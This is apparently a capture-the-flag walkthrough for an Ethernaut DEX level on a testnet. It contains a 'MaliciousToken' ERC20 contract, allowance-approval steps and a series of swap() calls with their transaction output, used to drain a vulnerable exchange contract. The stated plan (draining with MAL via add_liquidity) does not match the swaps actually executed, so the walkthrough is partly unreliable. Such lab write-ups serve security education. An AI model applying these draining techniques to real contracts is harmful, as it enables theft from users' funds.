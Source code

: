## Exploitation

The following scenario will be used,

- Create MAL token and mint 1M MAL to our address.

- We’ll use add_liquidity() to transfer our MAL token to the Dex contract.

 So, approve an allowance of MAL for the Dex contract (spender) because it requires by transferFrom() in add_liquidity().

- Transfer MAL to the Dex contract for 100 MAL, we’ll drain token2. 

Currently, the Dex contract has 100 token2, the price ratio for MAL:token2 is 1:1.

- Drain token2 using swap().

Steps

1. Create MAL token by using Openzeppelin’s ERC20 and mint 1M of MAL to our address via _mint().

```
>t1 = await contract.token1()
'0x07F6d4816934a456dd9f49a857cfc8C7CAE5d4F4'

>t2 = await contract.token2()
'0xa2c11dE85350A72E0f83D26b5835D74c8fA41C08'
```

//openzeppelin tokenをcompile 
```solidity
/AnyToken.sol

pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor () public ERC20("Malicious", "MAL") {
        _mint(msg.sender, 1000000 * (10 ** uint256(decimals())));
    }
}
```

//token1をAt Addressにcopy, 

//Developed Contracts approve of spender by Ethernautのinstanceとamount 10_000_000
```
[block:10966548 txIndex:0]from: 0xF6e...f30F5to: 0x07F6d4816934a456dd9f49a857cfc8C7CAE5d4F4 0x07F...5d4F4value: 0 weidata: 0x095...89680logs: 0hash: 0x86f...087cc
```

//allowanceのownerを自分のwallet, spenderをEthernautのinstanceにsetting

block addressコピーするとbug発生するから注意
```
0:uint256: 10000000
```

//token2をAt Addressにcopy, 

//Developed Contracts approve of spender by address of Ethernaut instanceとamount 10_000_000

//allowanceのownerを自分のwallet, spenderをEthernautのinstanceにsetting
```
0:uint256: 10000000
```
```
>await contract.swap(t1, t2, 10)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825
{tx: '0x4aa89e6c034c845a3f8f4b30cdd26f6c89bdd811138be827edf7e6ff04f74825', receipt: {…}, logs: Array(0)}
```
```
>await contract.swap(t2, t1, 20)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57
{tx: '0x4350bbb7af6f1b676fc565782e7a7cf8c948504376955f4d1a97ad1e5c246e57', receipt: {…}, logs: Array(0)}
```
```
>await contract.swap(t1, t2, 24)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569
{tx: '0x6d9af339db16e6c9c730243ade74d03d10516360e0d21e28c498293599c37569', receipt: {…}, logs: Array(0)}
```
```
>await contract.swap(t2, t1, 30)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730
{tx: '0x1579bcf5eb89950f1a06dc9f7c5fe0181b73e7b7596aa8608e6e44d32254f730', receipt: {…}, logs: Array(0)}
```
```
>await contract.swap(t1, t2, 41)
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6
{tx: '0xb4677ba1ce3ebf654dfea4e08cfe837f418a20f8f556dfdd38fa9f31d7dba6a6', receipt: {…}, logs: Array(0)}
```
```
>await contract.swap(t2, t1, 45)

e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80
{tx: '0xcc9992af883cc5a107bdf39c0b274d50d07f13c8c6503a306f22214607ad1d80', receipt: {…}, logs: Array(0)}
```
